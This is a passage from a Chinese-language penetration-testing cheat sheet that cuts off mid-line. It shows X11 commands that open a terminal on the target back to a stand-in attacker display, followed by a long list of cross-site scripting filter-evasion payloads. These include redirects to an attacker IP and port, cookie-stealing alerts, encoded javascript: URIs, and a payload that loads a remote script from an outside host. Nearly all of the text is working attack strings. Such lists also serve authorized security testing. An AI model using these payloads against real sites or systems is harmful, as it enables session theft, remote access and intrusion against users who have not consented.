 
// 授权访问
xhost +targetip


// 在目标机器上连接回我们的 X 服务器
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xte</pre>


### 56.XSS 备忘录

> 
<pre>https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("&lt; iframes &gt; src=http://IP:PORT &lt;/ iframes &gt;")


&lt;script&gt;document.location=http://IP:PORT&lt;/script&gt;


';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–&gt;&lt;/SCRIPT&gt;"&gt;'&gt;&lt;SCRIPT&gt;alert(String.fromCharCode(88,83,83))&lt;/SCRIPT&gt;


";!–"&lt;XSS&gt;=&amp;{()}


&lt;IMG SRC="javascript:alert('XSS');"&gt;
&lt;IMG SRC=javascript:alert('XSS')&gt;
&lt;IMG """&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;""&gt;
&lt;IMG SRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;&amp;#39;&amp;#88;&amp;#83;&amp;#83;&amp;#39;&amp;#41;&gt;


&lt;IMG SRC=&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041&gt;
&lt;IMG SRC="jav ascript:alert('XSS');"&gt;


perl -e 'print "&lt;IMG SRC=javascript:alert(\"XSS\")&gt;";' &gt; out


&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")&gt;


("&gt;&lt; iframes http://google.com &lt; iframes &gt;)


&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;
&lt;FRAMESET&gt;&lt;FRAME SRC=”javascript:alert('XSS');"&gt;&lt;/FRAMESET&gt;
"&gt;&lt;script &gt;alert(document.cookie)&lt;/script&gt;
%253cscript%253ealert(document.cookie)%253c/script%253e
"&gt;&lt;s"%2b"cript&gt;alert(document.cookie)&lt;/script&gt;
%22/%3E%3CBODY%20οnlοad=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
&lt;img src=asdf οnerrοr=alert(document.</pre>
